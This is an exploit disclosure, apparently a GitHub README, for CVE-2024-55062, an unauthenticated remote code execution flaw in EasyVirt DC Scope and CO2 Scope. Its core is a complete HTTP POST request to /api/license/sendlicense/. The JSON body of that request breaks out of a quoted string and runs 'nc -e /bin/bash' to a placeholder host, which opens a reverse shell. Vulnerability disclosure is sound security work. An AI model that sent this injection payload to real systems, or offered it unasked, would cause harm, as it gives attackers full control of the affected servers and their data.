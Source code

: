 # [CVE-2024-55062] - EasyVirt - Remote Code Execution (Unauthenticated)
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 10-25-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DC Scope <= 8.6.0
- CO2 Scope <= 1.3.0

## Description:
Code Injection vulnerability in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote unauthenticated attackers to execute arbitrary code to `/api/license/sendlicense/`.

## Exploitation:
```
POST /api/license/sendlicense/ HTTP/1.1
Host: XX.XX.XX.XX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Content-Type: application/json; charset=utf-8
Content-Length: 26
Te: trailers
Connection: close

["random';nc -e /bin/bash YY.YY.YY.YY 1234;'"]
```

## Impact:
Exploiting an RCE allows an attacker to gain full control of the device, potentially compromising all the data it protects.
